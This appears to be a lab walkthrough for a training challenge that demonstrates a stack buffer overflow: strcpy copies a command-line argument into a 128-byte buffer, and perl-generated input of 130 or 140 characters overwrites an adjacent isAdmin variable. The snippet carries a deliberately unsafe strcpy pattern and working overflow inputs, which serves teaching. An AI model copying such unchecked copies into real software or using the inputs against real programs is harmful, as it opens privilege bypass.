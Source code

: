 # Simple Buffer overflow - local variable overwrite

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive variable, and based on this the function flow,
which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Source 

* Source directory: `~/challenges/challenge09/`
* Source files: [challenge09](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge09)

You can compile it by calling `make` in the folder `~/challenges/challenge09`


## Vulnerability

Read the source of `challenge09.c`.

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[128];
	...
	strcpy(firstname, username); // strcpy() is unsafe
	...
}

int main(int argc, char **argv) {
    handleData(argv[1], argv[2]);
}
```

The first argument of the program is copied into a stack buffer `name` of 128 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
~/challenges/challenge09$ ./challenge09 sheldon password
isAdmin: 0x0
Not admin.
```

The password "password" seems to be not correct. We dont know
what the actual password is.

But with the correct password, it would look like this:

```
~/challenges/challenge09$ ./challenge09 sheldon ...
isAdmin: 0x1
You are admin!
```


## Abnormal behaviour - buffer overflow

What happens when you insert a string which is longer than 128 bytes? Lets try it.
We can use perl to print 130 characters:

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 130'` password
isAdmin: 0x4141
You are admin!
```

It appears that we have overwritten the `isAdmin` variable with the content `0x4141`. 


## Abnormal behaviour - more buffer overflow

What if we even add some more characters? Lets say 140.

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 140'` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
```

Not only is the `isAdmin` variable `0x41414141`, but we also get a `Segmentation fault` 
at the end.


## Things to think about

* What is happening here? Why Are we "admin" if we use a username which is 130 bytes long?
* Why do we get a segmentation fault if we use a username which is 140 bytes long?
